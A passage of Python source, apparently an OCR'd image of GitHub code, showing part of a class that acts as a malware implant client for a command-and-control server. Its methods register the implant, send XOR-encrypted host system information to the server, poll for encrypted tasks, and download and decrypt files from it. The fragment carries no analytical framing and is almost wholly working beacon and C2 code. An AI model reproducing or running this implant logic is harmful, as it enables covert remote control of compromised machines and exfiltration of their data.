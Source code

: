 ```python
            print(f"Got implant ID: {self.implant_id}")
            print(f"Got UNIQUE_XOR_KEY: {self.unique_xor_key}")
            
        return response.json()

    def activate(self, system_info: Dict[str, Any]) -> Dict[str, Any]:
        """Activate implant with system information using UNIQUE_XOR_KEY"""
        if not self.unique_xor_key:
            raise Exception("Must register first to get UNIQUE_XOR_KEY")
            
        encrypted_data = self.xor_encrypt(json.dumps(system_info), self.unique_xor_key)
        
        print("\nActivating implant...")
        response = requests.post(
            f"{self.base_url}/register",
            headers=self.headers,
            json={'data': encrypted_data}
        )
        
        return response.json()

    def get_task(self) -> Dict[str, Any]:
        """Get pending tasks using UNIQUE_XOR_KEY"""
        if not self.unique_xor_key:
            raise Exception("Must register first to get UNIQUE_XOR_KEY")
            
        print("\nChecking for tasks...")
        response = requests.get(
            f"{self.base_url}/task",
            headers=self.headers
        )
        
        if response.status_code == 200:
            encrypted_data = response.json().get('data')
            if encrypted_data:
                decrypted = self.xor_decrypt(encrypted_data, self.unique_xor_key)
                return json.loads(decrypted)
        return response.json()

    def download_file(self, file_id: str, task_guid: str) -> bytes:
        """Download and process file from server"""
        if not self.unique_xor_key:
            raise Exception("Must register first to get UNIQUE_XOR_KEY")
            
        headers = self.headers.copy()
        headers['Content-MD5'] = task_guid
        
        print(f"\nDownloading file {file_id}...")
        response = requests.get(
            f"{self.base_url}/task/{file_id}",
            headers=headers
        )
        
        if response.status_code == 200:
            # Get encrypted filename from header
            enc_filename = response.headers.get('X-Original-Filename')
            if enc_filename:
                filename = self.xor_decrypt(enc_filename, self.unique_xor_key)
                print(f"Original filename: {filename}")
            
            # Process file content
            content = base64.b64decode(response.content)
            decrypted = self.xor_decrypt(content.decode(), self.unique_xor_key)
```